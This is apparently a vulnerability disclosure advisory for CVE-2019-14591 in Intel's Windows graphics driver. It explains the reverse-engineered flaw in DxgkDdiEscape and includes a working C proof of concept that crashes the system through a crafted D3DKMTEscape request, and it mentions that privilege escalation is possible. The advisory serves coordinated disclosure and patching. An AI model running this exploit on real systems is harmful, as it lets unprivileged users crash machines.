 # SSD Advisory - Intel Windows Graphics Driver Out of Bounds Read Denial of Service

## Vulnerabilities Summary
The igdkmd64 module in the Intel Graphics Driver DCH on Windows allows unprivileged users to cause Denial of Service (crash) via a crafted D3DKMTEscape request.

## CVE
CVE-2019-14591

## Credit
SSD Secure Disclosure / Ori Nimron

## Affected Systems
Tested on Intel Graphics Driver DCH:  
25.20.100.6323.  
25.20.100.6577.  
25.20.100.6618 (latest at the time of writing this report).  
Testing environment:  
OS Name Microsoft Windows 10 Pro.  
Version 10.0.17134 Build 17134.  
OS Manufacturer Microsoft Corporation.  
System Model System Product Name.  
System Type x64-based PC.  
Processor Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz, 3401 Mhz, 4 Core(s), 8 Logical Processor(s).  

## Vendor Response
Intel fixed the issue in version 26.20.100.7209 of the Intel(R) Graphics Driver. For more information see [2019.2 IPU](https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00242.html).

## Vulnerability Details
The driver’s callback function DxgkDdiEscape contains an Out-Of-Bound Read that can be triggered by unprivileged users who can trigger the vulnerability by crafting a malicious request to the D3DKMTEscape function.  
In DxgkDdiEscape, there is a global variable (which I named as “escape_jmp_table”) which is an array of pointers to functions. The function will choose which function to call based on the value of the third parameter of the privateDriverData value that is controlled by the local user.  

The structure of privateDriverData looks something like this:
``` c
typedef struct {
	UINT unknown1;
	UINT unknown2;
	UINT escape_jmp_table_index;
	UINT switchcase_index;
	char buffer[100];
} privateDriverData;
```

The DxgkDdiEscape will call to sub_14004FCE0 (which I will name it as ESCAPE_CONTINUE_TO_TABLE). The ESCAPE_CONTINUE_TO_TABLE will load the “escape_jmp_table” and will call the function to which escape_jmp_table[pPrivateDriverData.escape_jmp_table_index] points to.

![Ida 1](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-1.png)

The vulnerability discovered lies in the function being called by the pointer found by the value of the second index of the escape_jmp_table. This function (sub_140085E70) does a switch case on the fourth parameter of the privateDriverData and decides to which function to call by the value given.  
This image shows the various switch case handling this function (sub_140085E70) supports:

![Ida 2](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-2-1024x206.png)

In case that the value of the fourth parameter in the structure is 205, the function the sub_140092E80 will be called:

![Ida 3](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-3.png)

This function allocates a buffer on the stack and calls sub_1400AD9F0 with this buffer, I will name this buffer as local_buf:

![Ida 4](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-4.png)

The subsequent function sub_1400AD9F0 does a memcpy(pPrivateDriverData.buffer + 0xb, 0x200, localbuf + 0xb, 0x200).  
The memcpy is called with a fixed size, no checks on the pPrivateDriverData buffer size, which means that if pPrivateDriverData.buffer length is smaller than 0x200 + 0xb, an overflow will be triggered. This overflow can lead to Escalation of Privileges (by utilizing a null pointer dereference exploitation method) or local Denial of Service.

![Ida 5](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-5.png)

## Proof of Concept
The following PoC calls the D3DKMTEscape function with previously mentioned parameters that will trigger the vulnerable function and the system will crush due to security cookie check failure. The full code is in the Escape directory which contains a visual studio solution:

``` c
#define BUF_SIZE 100

static const char* intel = "Intel";

typedef struct {
	UINT unknown1;
	UINT unknown2;
	UINT escape_jmp_table_index;
	UINT switchcase_index;
	char buffer[BUF_SIZE];
} PrivateDriverData;

int main()
{
	int result = 0;
	DRIVER_INFO driverInfo = { 0 };
	D3DKMT_ESCAPE escapeObj = { 0 };
	PrivateDriverData data = { 0 };
	int status = initDriver(&driverInfo, intel);
	if (!NT_SUCCESS(status)) {
		printf("Could not initialize connection to driver");
		return -1;
	}
	printf("[+] Initialized driver\n");
	escapeObj.Type = D3DKMT_ESCAPE_DRIVERPRIVATE;
	escapeObj.hAdapter = driverInfo.hAdapter;
	escapeObj.hDevice = (D3DKMT_HANDLE)NULL;
	data.unknown1 = 'AAAA';
	data.unknown2 = 'BBBB';
	data.escape_jmp_table_index = 1;
	data.switchcase_index = 205; // vulnerable case
	memset(data.buffer, 'A', BUF_SIZE);

	escapeObj.pPrivateDriverData = (void*)&data;
	escapeObj.PrivateDriverDataSize = sizeof(data);
	status = D3DKMTEscape(&escapeObj); // Will not return, it will crash the system.
	if (!NT_SUCCESS(status)) {
		printf("[-] D3DKMTEscape failed (%x)", status);
	}
	getchar();
	return 0;
}
```

## Result in WinDbg
![WinDbg 1](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-DOS-Windbg.png)
![WinDbg 2](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-DOS-Windbg-2.png)
We can see in the above screenshot that a buffer overflow occurred, and the system crashes.
